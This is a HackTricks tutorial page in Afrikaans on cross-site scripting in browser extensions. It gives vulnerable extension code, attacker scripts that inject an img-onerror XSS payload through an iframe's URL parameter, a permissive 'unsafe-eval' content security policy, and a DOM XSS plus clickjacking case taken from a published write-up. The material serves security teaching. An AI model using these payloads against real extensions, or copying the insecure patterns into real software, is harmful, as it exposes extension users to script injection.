 # BrowExt - XSS Voorbeeld

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cross-Site Scripting (XSS) deur Iframe

In hierdie opstelling word 'n **inhoudskrip** geïmplementeer om 'n Iframe te instantiëer, wat 'n URL met navraagparameters as die bron van die Iframe insluit:
```javascript
chrome.storage.local.get("message", result => {
let constructedURL = chrome.runtime.getURL("message.html") +
"?content=" + encodeURIComponent(result.message) +
"&redirect=https://example.net/details";
frame.src = constructedURL;
});
```
'n Publiek toeganklike HTML-bladsy, **`message.html`**, is ontwerp om dinamies inhoud by die dokumentliggaam toe te voeg gebaseer op die parameters in die URL:
```javascript
$(document).ready(() => {
let urlParams = new URLSearchParams(window.location.search);
let userContent = urlParams.get("content");
$(document.body).html(`${userContent} <button id='detailBtn'>Details</button>`);
$('#detailBtn').on('click', () => {
let destinationURL = urlParams.get("redirect");
chrome.tabs.create({ url: destinationURL });
});
});
```
'n Kwaadwillige skrip is op 'n teenstander se bladsy uitgevoer, wat die `content` parameter van die Iframe se bron verander om 'n **XSS payload** in te voer. Dit word bereik deur die Iframe se bron op te dateer om 'n skadelike skrip in te sluit:
```javascript
setTimeout(() => {
let targetFrame = document.querySelector("iframe").src;
let baseURL = targetFrame.split('?')[0];
let xssPayload = "<img src='invalid' onerror='alert(\"XSS\")'>";
let maliciousURL = `${baseURL}?content=${encodeURIComponent(xssPayload)}`;

document.querySelector("iframe").src = maliciousURL;
}, 1000);
```
'n Oormatig toelaatbare Inhoudsekuriteitsbeleid soos:
```json
"content_security_policy": "script-src 'self' 'unsafe-eval'; object-src 'self';"
```
laat die uitvoering van JavaScript toe, wat die stelsel kwesbaar maak vir XSS-aanvalle.

'n Alternatiewe benadering om die XSS te provoceer, behels die skep van 'n Iframe-element en die instelling van sy bron om die skadelike skrip as die `content` parameter in te sluit:
```javascript
let newFrame = document.createElement("iframe");
newFrame.src = "chrome-extension://abcdefghijklmnopabcdefghijklmnop/message.html?content=" +
encodeURIComponent("<img src='x' onerror='alert(\"XSS\")'>");
document.body.append(newFrame);
```
## DOM-gebaseerde XSS + ClickJacking

Hierdie voorbeeld is geneem uit die [oorspronklike pos skrywe](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/).

Die kernprobleem ontstaan uit 'n DOM-gebaseerde Cross-site Scripting (XSS) kwesbaarheid geleë in **`/html/bookmarks.html`**. Die problematiese JavaScript, deel van **`bookmarks.js`**, word hieronder uiteengesit:
```javascript
$('#btAdd').on('click', function() {
var bookmarkName = $('#txtName').val();
if ($('.custom-button .label').filter(function() {
return $(this).text() === bookmarkName;
}).length) return false;

var bookmarkItem = $('<div class="custom-button">');
bookmarkItem.html('<span class="label">' + bookmarkName + '</span>');
bookmarkItem.append('<button class="remove-btn" title="delete">x</button>');
bookmarkItem.attr('data-title', bookmarkName);
bookmarkItem.data('timestamp', (new Date().getTime()));
$('section.bookmark-container .existing-items').append(bookmarkItem);
persistData();
});
```
This snippet fetches the **value** from the **`txtName`** input field and uses **string concatenation to generate HTML**, which is then appended to the DOM using jQuery’s `.append()` function.

Tipies sou die Chrome uitbreiding se Inhoudsekuriteitsbeleid (CSP) sulke kwesbaarhede voorkom. egter, as gevolg van **CSP verslapping met ‘unsafe-eval’** en die gebruik van jQuery se DOM manipulasie metodes (wat [`globalEval()`](https://api.jquery.com/jquery.globaleval/) gebruik om skripte aan [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) oor te dra tydens DOM invoeging), is uitbuiting steeds moontlik.

Terwyl hierdie kwesbaarheid beduidend is, is die uitbuiting gewoonlik afhanklik van gebruikersinteraksie: die bladsy besoek, 'n XSS payload invoer, en die “Voeg by” knoppie aktiveer.

Om hierdie kwesbaarheid te verbeter, word 'n sekondêre **clickjacking** kwesbaarheid uitgebuit. Die Chrome uitbreiding se manifest toon 'n uitgebreide `web_accessible_resources` beleid:
```json
"web_accessible_resources": [
"html/bookmarks.html",
"dist/*",
"assets/*",
"font/*",
[...]
],
```
Notabel is die **`/html/bookmarks.html`** bladsy geneig tot framing, en dus kwesbaar vir **clickjacking**. Hierdie kwesbaarheid word benut om die bladsy binne 'n aanvaller se webwerf te raam, dit te oorvleuel met DOM-elemente om die koppelvlak misleidend te herontwerp. Hierdie manipulasie lei daardeur dat slagoffers onbedoeld met die onderliggende uitbreiding interaksie het.

## Verwysings

* [https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/](https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/)
* [https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
